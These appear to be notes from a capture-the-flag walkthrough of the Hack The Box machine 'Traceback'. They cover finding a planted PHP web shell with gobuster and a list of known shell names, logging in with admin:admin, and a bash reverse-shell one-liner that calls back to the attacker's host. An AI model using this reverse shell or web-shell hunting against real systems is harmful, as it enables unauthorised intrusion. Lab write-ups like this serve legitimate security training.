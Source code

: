 # 10 - HTTP

# A backdoor is installed on the box
![](vx_images/1347212095162.png)


# Source review
![](vx_images/3022898757792.png)

As it turns out there is a repository named just like in the comment.


![](vx_images/894655128617.png)


https://github.com/TheBinitGhimire/Web-Shells



# Shell
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traceback]
└──╼ $ cat shells.txt

TwemlowsShell.php
TwemlowsWebShell.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```
This is a list of shells in the repository.



# smevk.php
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traceback]
└──╼ $ gobuster dir -u http://10.10.10.181/ -w shells.txt  -o gobuster/shells.log -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                shells.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/23 20:20:56 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]
                                                
===============================================================
2021/08/23 20:21:00 Finished
===============================================================
```

# Web shell

![](vx_images/2860482728646.png)

Credentials:

* admin:admin


# Reverse Shell
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"
```



![](vx_images/1856100982918.png)